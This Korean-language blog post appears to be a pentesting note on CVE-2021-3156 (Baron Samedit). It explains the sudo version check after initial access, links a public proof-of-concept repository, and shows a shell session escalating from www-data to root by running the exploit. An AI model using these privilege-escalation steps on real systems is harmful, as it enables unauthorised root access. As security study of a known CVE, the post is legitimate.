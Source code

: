 ```yaml
---
layout: post
title: CVE-2021-3156 취약점 및 예시
subtitle: Baron Samedit - sudo 버전 취약점점
category: knowledge
thumbnail-img: /assets/img/knowledge/baron.webp
tags: [kernel, sudo, suid, baronsamedit,CVE-2021-3156]
author: Hong
---
```

sudo의 버전을 이용한 버퍼 오버플로우에 의한 권한 상승 취약점.

CVE-2021-3156은 sudo의 버전이 1.9.5p2 보다 낮을 경우 악용할 수 있다.

해당 취약점은 유명해서 또 다른 이름으로 Baron Samedit이라고도 불린다.
# sudo의 버전 확인
리눅스 시스템에 초기 진입에 성공했을 때 SUID의 리스트를 확인한다.

보통 sudo가 포함되어 있지만 보안 문제로 사용이 제한되어 있는 경우가 많다.

그렇다고 그냥 지나치지 말고 버전을 확인해본다.

```bash
$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```
위의 경우 버전이 1.8.31로 CVE-2021-3156에 해당되는 것을 알 수 있다.

# Poc를 다운로드, 실행
취약점을 이용하는 방법은 간단한데 poc소스 코드를 다운받아서 실행하면 끝이다.

https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit 여기서 깃을 클론해온다.

```bash
# 실행전
www-data@ip-172-20-3-199:/tmp/Sudo-1.8.31-Root-Exploit-main$ whoami
www-data

#실행 후
www-data@ip-172-20-3-199:/tmp/Sudo-1.8.31-Root-Exploit-main$ ./exploit 
whoami
root
```
위의 코드를 보면 실행 후 바로 root로 바뀌는 것을 알 수 있다.